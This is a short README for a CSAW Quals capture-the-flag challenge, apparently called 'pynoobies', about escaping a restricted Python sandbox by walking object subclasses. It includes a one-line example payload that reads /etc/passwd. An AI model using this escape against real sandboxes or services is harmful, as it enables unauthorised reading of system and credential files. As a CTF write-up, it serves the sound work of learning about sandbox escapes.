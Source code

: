 # pynoobies

This is simply a challenge taken from the CSAW Quals CTF. It was originally named pybabies.
The trick is to obtain any objects instance and from its super attributes grab a hold of `object`.
 From there you can find your way back down to classes containing modules `os` or `sys`. From there you can read any file on your file system.

Here is one example solution:

``` python
print(().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read())
```
